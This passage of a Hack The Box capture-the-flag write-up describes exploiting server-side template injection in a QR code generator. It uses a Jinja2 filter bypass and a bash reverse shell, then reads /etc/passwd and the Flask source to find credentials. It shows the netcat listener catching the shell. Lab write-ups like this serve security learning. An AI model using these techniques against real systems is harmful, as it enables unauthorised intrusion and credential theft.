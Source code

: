and **QR Code generator** (available after passing the invoice id):

![05-invoice_generated](https://github.com/amalcew/htb-writeups/assets/73908014/6cbcd8a3-ab3c-43ef-b549-abd3ec62f5eb)

![06-ssti](https://github.com/amalcew/htb-writeups/assets/73908014/d12d06d7-89ba-4938-9517-321ea633bf48)

Submiting the standard SSTI payload did not returns anything in the browser, but things change drastically when executing the request with Burp:

![07-ssti_vuln](https://github.com/amalcew/htb-writeups/assets/73908014/1248cf53-4bd1-4fcc-8533-71085c352fba)

Bingo! Now everyting that I need to do is to gain RCE over the vulnerable server. Server has some kind of filter, as many of the payloads did not work, but finally I've found the bypass on [Payload All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#jinja2-filter-bypass) cheatsheet utilizing `\x5f` sign that worked on the target website:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/a2d02eac-1ea4-4cb6-a07c-de97d48f1610)

To gain RCE we need to pass the reverse shell, for example standard bash reverse shell. 

![image](https://github.com/amalcew/htb-writeups/assets/73908014/77ba21df-e0a9-41de-87f9-5ea8ac4e48a5)

This way we gain the access to the bash shell of `www-data` user on the server:

```bash
> nc -lnvp 1234   
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.12] 48508
bash: cannot set terminal process group (1217): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Lateral movement

As we have access to `www-data` and not standard Linux user, we need to leverage the access. Greping the `/etc/passwd` we can see which users have `home` directory and access to the shell:

```bash
www-data@iclean:/opt/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
```

Okay, there is some user named `consuela`, which indeed have `home` directory. Exploring the environment we landed in, we can see that there is a Flask script, which contains hardcoded db credentials:

```bash
www-data@iclean:/opt/app$ cat app.py
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

```
